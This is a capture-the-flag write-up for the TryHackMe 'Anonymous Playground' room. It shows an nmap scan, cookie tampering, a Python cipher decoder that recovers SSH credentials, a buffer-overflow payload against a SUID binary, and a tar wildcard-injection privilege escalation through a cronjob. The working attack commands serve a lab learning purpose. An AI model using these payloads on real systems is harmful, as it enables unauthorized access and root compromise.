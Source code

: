 ```yaml
---
title: "TryHackMe Anonymous Playground"
categories: [TryHackMe]
tags: [linux, cookie, data-encoding, reverse-engineering, buffer-overflow, cronjob]
media_subpath: /images/tryhackme_anonymous_playground
image:
  path: room-image.png
---
```


[This room](https://tryhackme.com/room/anonymousplayground) started from cookie manipulation leading to decoding a cipher. Decoded data used to gain SSH shell. Then after analyzing binary exploited it using buffer overflow. Root escalation privilege was achieved by exploiting a cronjob


## Nmap Scan

Starting off with an nmap scan

```console
$ nmap -sS -sC -sV -T4 10.10.211.249 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 15:52 BST
Nmap scan report for 10.10.211.249
Host is up (0.030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Proving Grounds
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/zydhuakjp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

There is a `robots.txt` containing this path: `/zydhuakjp`

Just by looking at website and didn't find anything useful decided to go to directory from robots.txt

Looking at it went check the cookie, here we see its value set to "denied"

![Webpage](webpage.png)

![cookie](web-cookie.png)

After changing value to "granted" and refreshing the page appeared encoded text

![Access-granted](access-granted.png)

## Decoding cipher / Magna flag

### Decoding cipher

Okay so not to take too long - tested that decoding and pair of letters in cipher is the sum of its position in alhpabet (e.g hE, 8 and 5, sum = 13, 13th letter of alphabet is 'm'. With zA becase its sum is 27 it will be just 'a')
> **HINT** You're going to want to write a Python script for this. 'zA' = 'a'
{: .prompt-tip }

Wrote python script to automate decoding

```python
# hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN

cipher = ['hE', 'zA', 'dC', 'fH', 'zA', '::', 'hE', 'zA', 'dC', 'fH', 'zA', 'hA', 'iJ', 'zA', 'eI', 'aD', 'jB', 'cB', 'hH', 'gA', 'zA', 'fH', 'fN']
alphabet = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']

decoded_cipher = [] # decoded text will be stored here
for pair in cipher:
	if pair == "::":
		decoded_cipher.append("::")
		continue
		
	# +1 because of list indexing
	char1 = int(alphabet.index(pair[0]))+1 
	char2 = int(alphabet.index(pair[1].lower()))+1

	char_sum = char1 + char2
	
	decoded_char = '' # calculated char will be stored here 
	if char_sum == 27: # if zA pair
		decoded_char = 'a'
		decoded_cipher.append(decoded_char)
	else:
		decoded_char = alphabet[char_sum-1] # -1 because indexing starts from 0
		decoded_cipher.append(decoded_char)
	
formatted = ""
for char in decoded_cipher:
    formatted += char # to print as a string and not list 

print(formatted)
```

```console
$ python decrypt.py  
magna::mag[REDACTED]ant
```

Now having credentials we can log into SSH

### Magna flag

```console
magna@anonymous-playground:~$ cat flag.txt 
918[REDACTED]029
```

## Exploiting binary / Spooky flag

### Exploiting binary

Here noticed SUID file owned by root, it appears to be binary

![Binary](binary.png)

But just before analyzing binary I went to spooky's home folder, looks like we need to swith to this user

```console
-r-------- 1 spooky spooky   33 Jul  4  2020 flag.txt
```

Transferred this binary to my machine to open it in ghidra

![Transfer-binary](download-binary.png)

This program takes user input, but if input will be long enough it will overflow
![Binary-overflow-test](binary-overflow-test.png)


Looks like it just takes input BUT using gets, gets function doesn't limit input characters read
meaning we can can exceed size of local_48 buffer (64 bytes) causing buffer overflow

Found another function which sets to 0x539 (1337 in decimal), if you type `id spooky` in ssh shell his uid will be 1337, so we can redirect the return address of the program to  this function. Address of the `call_bash` function is on image below

![Ghidra-call_bash](ghidra-call_bash.png)

![Adress-of-call_bash-function](call_bash-address.png)

I was pretty sure that it will word but it didn't. Searched and found out that you need to
type `;cat after python command to keep pipe open, otherwise it will segfault again as cat waits for users input and just stays there so stdin isnt closing

[https://unix.stackexchange.com/questions/348458/what-is-meant-by-keeping-the-pipe-open](https://unix.stackexchange.com/questions/348458/what-is-meant-by-keeping-the-pipe-open)

```console
(python -c "print('A' * 72 + '\x57\x06\x40\x00\x00\x00\x00\x00')";cat) | ./hacktheworld
```

![Buffer-overflow-faile](failed-overflow.png)


Tried again and it still didnt work (but did with address ending 58 instead of 57)... Probably it expects the current stack 
before excecution 

[https://stackoverflow.com/questions/41912684/what-is-the-purpose-of-the-rbp-register-in-x86-64-assembler](https://stackoverflow.com/questions/41912684/what-is-the-purpose-of-the-rbp-register-in-x86-64-assembler)

```
0x00400657   PUSH   RBP        ; Save address of previous stack frame
0x00400658   MOV    RBP, RSP   ; Address of current stack frame
```

Example:

![Buffer-overflow-succeeded](buffer-overflow.png)

We can see ourselves as `spooky` user. Now stabilize the shell using 

```console
stty raw -echo; fg
```

![Spooky-shell](spooky-shell.png)

### Spooky flag

```console
spooky@anonymous-playground:/home/spooky$ cat flag.txt 
69e[REDACTED]9d7
```

## Privilege Escalation

Found cronjob running 

![Cronjob](cronjob.png)

I wanted to try use a PATH hijack because tar wasn't runnnig as configured path in the cronjob (just tar).
But firstly I decided to search how to exploit tar found `abusing tar wildcards` 
(* in the cronjob is wildcard). If you want, you can take a look:

[https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)

To exploit it just type following commands and wait for cronjob to run. This will copy a bash shell with SUID permission in /tmp

```console
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/spooky/shell.sh    
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```


When the SUID bash shell appears run it with following:

```console
./bash -p
```

![root-shell](root.png)

Command above will open a root shell, now you can read the root flag

```console
bash-4.4# cat flag.txt
bc5[REDACTED]e66
```









